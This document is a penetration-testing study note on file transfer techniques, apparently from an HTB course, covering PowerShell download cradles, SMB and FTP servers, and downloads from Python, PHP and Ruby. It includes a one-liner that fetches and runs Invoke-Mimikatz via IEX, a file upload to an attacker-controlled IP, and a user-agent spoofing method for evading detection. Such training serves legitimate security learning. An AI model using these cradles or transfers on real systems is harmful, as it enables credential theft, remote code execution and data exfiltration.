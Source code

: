 	Many data ex filtration techniques may be blocked, we need to find ways to bypass these.
## Windows File Transfers
*Fileless* means that the attack doesn't come in an external file and instead uses tools built into windows already.

![[fig1a-astaroth-attack-chain.webp]]

We can use base64 to directly copy over contents of a file if not too big.
Command line has a max character string of 8194 characters so  may not be possible.

#### Powershell Download Methods
|**Method**|**Description**|
|---|---|
|[OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)|Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0).|
|[OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)|Returns the data from a resource without blocking the calling thread.|
|[DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)|Downloads data from a resource and returns a Byte array.|
|[DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)|Downloads data from a resource and returns a Byte array without blocking the calling thread.|
|[DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)|Downloads data from a resource to a local file.|
|[DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)|Downloads data from a resource to a local file without blocking the calling thread.|
|[DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)|Downloads a String from a resource and returns a String.|
|[DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0)|Downloads a String from a resource without blocking the calling thread.|
Downloadstring can be piped into iex with 
```powershell-session
PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

list of power shell download cradles can be found here 
https://gist.github.com/HarmJ0y/bb48307ffa663256e239

May need to bypass SSL with 
```powershell-session
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

### SMB Downloads
Server Message Block that runs on port 445 is common in enterprise networks where windows services are running. 

We can create a smb server with impacket's smbserver
```
impacket-smbserver
```
with this we can mount the server with a username/password
```cmd-session
C:\htb> net use n: \\192.168.220.133\share /user:test test

The command completed successfully.

C:\htb> copy n:\nc.exe
        1 file(s) copied.
```

### FTP 
We can create a ftp server with 
```
python3 -m pyftpdlib
```

and transfer files with powershell's 
```powershell-session
S C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```


### Powershell web Uploads
There is no curl command on PS it is only an alias for IEX 
```powershell-session
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

### WebDav
We can create our own smbserver with WebDav


## Linux
Wget and curl 

We can do fileless operations with pipes |  

Web uploads with curl and -x POST

Create self signed certs with openssl 
```shell-session
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```


## Downloading with code
#### Python
```shell-session
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

#### PHP 
```shell-session
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

#### RUBY
```shell-session
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

#### JS
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

## Miscellaneous
Encryption on linux with openssl

HTTPS/HTTP most common allowed through firewalls. python3 upload server POST

## LOTL
Lolbins  are binaries that an attacker can use to preform actions beyond their original purposes. 

Living off the Land binaries can be used to perform functions such as:

- Download
- Upload
- Command Execution
- File Read
- File Write
- Bypasses

LOLBAS - Windows
https://lolbas-project.github.io/#
GTFOBINS - Linux 
https://gtfobins.github.io/

## Detection
Command line detection based off whitelists is extremely time consuming but robust.
Filter by legitimate user agent strings.

## Evading Detection
If administrators have blacklisted any user agents Invoke-WebRequest contains a useragent parameter which allows for changing the default user agent to a new one to emulate IE, Chrome, Firefox

```powershell-session
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

```powershell-session
PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

